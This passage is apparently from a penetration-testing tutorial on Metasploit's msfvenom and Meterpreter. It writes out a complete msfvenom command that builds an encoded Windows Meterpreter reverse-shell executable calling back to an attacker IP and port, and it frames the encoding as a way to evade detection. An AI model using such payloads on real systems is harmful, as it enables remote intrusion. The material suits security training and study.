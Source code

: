 4. **Generate Payload:**
   Execute the `msfvenom` command to generate the payload.

   ```plaintext
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe
   ```

#### Output Formats

`msfvenom` supports various output formats, including:

- **Executable:** `-f exe`
- **Raw Shellcode:** `-f raw`
- **C Code:** `-f c`
- **PHP:** `-f raw` (typically used for web payloads)
- **Python:** `-f python`

Understanding and using `msfvenom` effectively allows you to create tailored payloads that can evade detection and fit into different exploit scenarios.

### Meterpreter

Meterpreter is an advanced and extensible payload within the Metasploit Framework that provides a powerful way to interact with the target system post-exploitation. It operates in memory, making it stealthy and difficult to detect. Here, we cover the core concepts of Meterpreter, its various flavors, and examples of its powerful commands.

#### Meterpreter Flavors

Meterpreter payloads are divided into two main categories: staged and inline.

- **Staged Payloads:** Sent to the target in two steps. The initial part (the stager) establishes a connection and downloads the rest of the payload. This allows for a smaller initial payload size.
- **Inline Payloads:** Sent in a single step. The entire payload is delivered and executed at once.

The choice of Meterpreter payload depends on:

1. **Target Operating System:** Linux, Windows, Mac, Android, etc.
2. **Components Available on Target System:** Python, PHP, etc.
3. **Network Connection Types:** Raw TCP, HTTPS reverse connection, IPv6, etc.

#### Meterpreter Commands

Meterpreter provides a wide range of built-in commands categorized into core commands, file system commands, networking commands, and more. Each version of Meterpreter (e.g., Windows, Linux) has different command options. Running the `help` command within a Meterpreter session lists all available commands for that version.

##### Core Commands

- **help:** Lists all available commands.

  ```plaintext
  meterpreter > help
  ```

- **getuid:** Displays the user with which Meterpreter is currently running.
